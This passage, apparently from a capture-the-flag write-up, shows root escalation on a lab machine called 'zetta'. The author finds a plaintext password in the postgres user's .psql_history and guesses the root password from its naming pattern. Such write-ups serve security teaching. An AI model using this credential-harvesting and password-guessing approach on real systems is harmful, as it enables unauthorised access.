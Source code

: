 

No errors, and the shell works!

## Shell as root

### Enumeration

Either way, I'm on as postgres. In the home directory, there's a couple
history files that aren't redirected to `/dev/null`:



    postgres@zetta:/var/lib/postgresql$ ls -la
    total 24
    drwxr-xr-x  4 postgres postgres 4096 Sep  1 11:16 .
    drwxr-xr-x 27 root     root     4096 Aug 27 05:39 ..
    drwxr-xr-x  3 postgres postgres 4096 Jul 27 03:07 11
    lrwxrwxrwx  1 root     root        9 Jul 27 06:57 .bash_history -> /dev/null
    -rw-------  1 postgres postgres   32 Sep  1 11:16 .lesshst
    -rw-------  1 postgres postgres  744 Jul 27 07:01 .psql_history
    drwx------  2 postgres postgres 4096 Sep  1 14:47 .ssh



The `.lesshst` file isn't that interesting, but there's a password in
`.psql_history`:



    postgres@zetta:/var/lib/postgresql$ cat .psql_history 
    CREATE DATABASE syslog;
    \c syslog
    CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
    \d syslog_lines
    ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';



### su

This is where I recall the note earlier about a password scheme.
Immediately I'll try `su`. On entering the password
"sup3rs3cur3p4ass@root", I'm root:



    postgres@zetta:/var/lib/postgresql$ su -
    Password: 
    root@zetta:~# 


